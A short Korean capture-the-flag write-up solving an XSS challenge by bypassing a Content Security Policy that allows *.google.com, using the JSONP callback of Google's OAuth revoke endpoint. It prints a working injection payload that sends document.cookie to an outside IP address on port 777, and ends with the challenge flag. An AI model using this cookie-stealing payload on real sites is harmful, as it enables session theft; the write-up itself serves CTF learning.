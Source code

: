 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-03-17-15.png)


# **Write-Up**

BABY문제와 유사한 문제이다.

하지만 script.js를 상대경로를 통해 로드하는 것이 아닌 존재하지 않다.

![](images/2022-01-03-03-17-45.png)

https://*.google.com이라는 키워드가 있다.

![](images/2022-01-03-03-17-50.png)

https://accounts.google.com/o/oauth2/revoke 를 이용하여 XSS를 시도할 수 있다.

![](images/2022-01-03-03-17-59.png)

report.php에서 문자열과 변수를 합치기 위한 +기호를 URL encoding을 두번 해야한다는 점을 유의하여 다음을 넘기면 FLAG값을 확인할 수 있다.

    ?inject=<script src="https://accounts.google.com/o/oauth2/revoke?callback=document.location.href='http://61.251.215.194:777/?cookie='%252Bdocument.cookie;"></script>

FLAG를 인증하여 점수를 획득하자.

![](images/2022-01-03-03-18-18.png)


# **FLAG**

**FLAG{I_hacked_google.com_and_it_was_ezpz}**